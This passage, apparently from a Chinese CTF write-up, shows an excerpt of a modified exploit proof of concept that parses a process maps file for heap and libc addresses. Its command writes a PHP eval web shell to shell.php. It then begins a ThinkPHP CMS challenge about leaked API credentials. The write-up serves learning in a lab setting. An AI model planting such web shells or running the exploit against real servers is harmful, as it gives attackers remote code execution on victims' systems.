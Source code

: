 使用: 

```bash
python file_b64_decoder.py < data.txt
```

最后改一下 PoC :

```python
.......
maps_path = './maps'
cmd = 'echo "<?php @eval($_POST[\'shell\']);?>" > shell.php'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.31.so'
.......
```

然后执行:

![15-3.png](15-3.png)

最后读出 flag。

## [GHCTF 2024 新生赛] CMS直接拿下

> hint: api接口账号密码泄露

打开题目, 是个 ThinkPHP 的提示页面, 有显示版本:

![16-1.png](16-1.png)
